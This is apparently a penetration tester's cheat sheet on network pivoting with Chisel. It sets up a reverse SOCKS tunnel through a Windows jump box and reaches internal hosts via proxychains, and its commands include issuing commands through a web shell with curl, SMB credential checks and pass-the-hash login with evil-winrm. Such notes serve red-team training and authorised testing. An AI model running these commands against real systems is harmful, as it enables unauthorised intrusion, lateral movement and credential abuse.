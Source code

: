 # Port Forwarding with Chisel

## Config

Edit `/etc/proxychains4.conf` file

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5          127.0.0.1 1080
```

Comment `socks4` line and add `socks5` line.

## Sharing and transferring the files

```bash
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

- x86

```cmd
xcopy \\<Kali IP>\share\chisel\x86\chisel.exe C:\Temp\chisel\
```

- x64

```cmd
xcopy \\<Kali IP>\share\chisel\x64\chisel.exe C:\Temp\chisel\
```

## Kali <==> Windows JumpBox <==> Target

Kali - server

```bash
/opt/chisel/chisel server -p 8000 --reverse
```

Windows JumpBox - client

```cmd
.\chisel.exe client <Kali IP>:8000 R:socks
```

## Accessing

Access with nmap

- -Pn: Treat all hosts as online -- skip host discovery
- -n: Never do DNS resolution
- -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans

```bash
proxychains nmap -sT -p <Target Ports> -Pn -n <Target IP>
```

Access with curl

```bash
proxychains curl http://<Target IP>/shell.asp?cmd=whoami
```

or

```bash
proxychains curl --get \
  --data-urlencode 'cmd=whoami /priv' \
  http://<Target IP>/shell.asp
```

Access with mysql

```bash
proxychains mysql -h <Target IP> -u <user> -p
```

Access with crackmapexec

```bash
proxychains crackmapexec smb <Target IP> -u '<user>' -p '<pwd>'
```

Access with RDP

```bash
proxychains xfreerdp /v:<Target IP> /u:'<user>' /p:'<pwd>'
```

Access with ssh

```bash
proxychains ssh <user>@<Target IP>
```

Access with Evil-WimRM

```bash
proxychains evil-winrm -u '<domain>\<user>' -H '<NTLMHASH>' -i <Target IP>
```

Access with Firefox (using FoxyProxy)

![Firefox - FoxyProxy](images/proxychains_chisel_firefox.png)

Access with dbeaver

![dbeaver](images/proxychains_chisel_dbeaver.png)

## Download

- [Chisel - releases](https://github.com/jpillora/chisel/releases)

## Links

- [YouTube - Elevate Cyber - Chisel](https://www.youtube.com/watch?v=dIqoULXmhXg)
- [Port Forwarding with Chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)
- [Double Pivot using Chisel](https://blog.0xzon.dev/2023-05-03-Double-Pivot-Using-Chisel/)
